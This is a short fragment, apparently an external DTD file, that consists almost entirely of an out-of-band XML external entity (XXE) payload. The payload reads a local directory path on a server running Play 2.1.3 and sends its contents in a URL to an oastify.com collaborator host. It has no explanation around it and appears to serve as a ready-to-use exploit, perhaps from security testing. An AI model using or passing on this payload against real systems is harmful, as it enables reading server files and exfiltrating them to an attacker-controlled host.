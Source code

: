<!ENTITY % p1 SYSTEM "file:///opt/play-2.1.3/xxe/">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://84afje4zwj9h2aam2n55unvbk2qtej28.oastify.com/BLAH?%p1;'>">
%p2;

